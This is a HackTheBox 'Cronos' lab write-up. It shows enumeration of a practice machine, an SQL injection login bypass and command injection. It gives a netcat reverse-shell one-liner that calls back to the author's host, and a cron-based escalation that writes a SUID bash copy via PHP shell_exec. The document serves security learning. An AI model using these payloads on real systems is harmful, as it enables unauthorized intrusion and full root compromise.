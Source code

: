```yaml
---
title: "HackTheBox - Cronos"
author: Nasrallah
description: ""
date: 2023-04-25 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, medium, cronjob, commandinjection, php, dns, subdomains, ffuf, sqli]
img_path: /assets/img/hackthebox/machines/cronos
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Cronos](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com). A medium linux box where we bypass a login page using sqli and find a command injection vulnerability that we exploit to get foothold. After that we exploit a cronjob to get root access.

![](0.png)

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.13
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found three open ports, 22 running OpenSSH, 53 is DNS and 80 is an Apache http web server, all running on Ubuntu.

### Web

Let's check the web page.

![](1.png)

It's the default page for Apache, and nothing interesting can be found.

### DNS

Let's use `nslookup` to extract information from the DNS server and see if we can get a domain name.

```terminal
$ nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 127.0.0.1
1.0.0.127.in-addr.arpa  name = localhost.
> 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
```

We found the domain `cronos.htb`, let's add it to `/etc/hosts` and navigate to it.

![](2.png)

We got another page this time, but still nothing useful can be found.

### ffuf

Let's fuzz for subdomains

```terminal
$ ffuf -c -w /usr/share/seclists/Discovery/DNS/namelist.txt -u http://cronos.htb/ -H "Host: FUZZ.cronos.htb/" -fl 380                                    
                                                                                                                                                              
        /'___\  /'___\           /'___\                                                                                                                       
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                      
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                       
          \/_/    \/_/   \/___/    \/_/                                                                                                                       
                                                                                                                                                              
       v1.4.1-dev                                                                                                                                             
________________________________________________                                                                                                              
                                                                                                                                                              
 :: Method           : GET                                                                                                                                    
 :: URL              : http://cronos.htb/                                                                                                                     
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/namelist.txt                                                                                   
 :: Header           : Host: FUZZ.cronos.htb/                                                                                                                 
 :: Follow redirects : false                                                                                                                                  
 :: Calibration      : false
 :: Timeout          : 10                                                      
 :: Threads          : 40        
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 380
________________________________________________
                                                                               
admin                   [Status: 200, Size: 1547, Words: 525, Lines: 57, Duration: 482ms]
```

Not until i finished the scan i realized that i could've enumerated the DNS server to get subdomains.

```terminal
$ dig axfr cronos.htb @10.10.10.13                                                                                  

; <<>> DiG 9.16.37-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 586 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Mon May 01 09:45:03 +01 2023
;; XFR size: 7 records (messages 1, bytes 203)

```

We found the subdomain `admin`, we add it to `/etc/hosts/` and navigate to it.

![](3.png)

It's a login page, i tried some default credentials and failed but managed to login using sql injection with the famous payload `' or 1=1 -- -`

![](4.png)

## **Foothold**

After login in successfully i saw that we can run traceroute, so i wasted no time and tested for command injection.

![](5.png)

Great! The web site is vulnerable, now it's time for a reverse shell, and for that i used `nc mkfifo`.

```terminal
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.17.90 9001 >/tmp/f
```

![](6.png)


## **Privilege Escalation**

Checking the `/etc/crontab` we see a cronjob running every minute.

```terminal
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

After some research i found this [documentation](https://laravel.com/docs/10.x/scheduling#scheduling-artisan-commands) about scheduled tasks in Laravel.

The scheduled tasks can be found in `app/Console/Kernel.php` file.

```php
<?php                                                                                                                                                         
                                                                                                                                                              
namespace App\Console;                                                                                                                                        
                                                                                                                                                              
use Illuminate\Console\Scheduling\Schedule;                                                                                                                   
use Illuminate\Foundation\Console\Kernel as ConsoleKernel;                                                                                                    
                                                                                                                                                              
class Kernel extends ConsoleKernel                                                                                                                            
{                                                                                                                                                             
    /**                                                                                                                                                       
     * The Artisan commands provided by your application.                                                                                                     
     *                                                                                                                                                        
     * @var array                                                                                                                                             
     */                                                                                                                                                       
    protected $commands = [                                                                                                                                   
        //                                                                                                                                                    
    ];                                                                                                                                                        
                                                                                                                                                              
    /**                                                                                                                                                       
     * Define the application's command schedule.                                                                                                             
     *
     * @param  \Illuminate\Console\Scheduling\Schedule  $schedule
     * @return void
     */
    protected function schedule(Schedule $schedule)
    {
        // $schedule->command('inspire')
        //          ->hourly();
    }

    /**
    * Register the Closure based commands for the application.
     *
     * @return void
     */
    protected function commands()
    {
        require base_path('routes/console.php');
    }
}
```

At the very bottom we see the routes/console.php file being called.

As user `www-data` we have control over that file, so we can change it to execute something malicious. In this case, I'll edit `console.php` to run the following code.

```php
<?php shell_exec('cp /bin/bash /tmp/bash && chmod +s /tmp/bash'); ?>
```

This will create a copy on bash in /tmp and give it suid permission so i can run it as root.

![](7.png)

And we got root!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).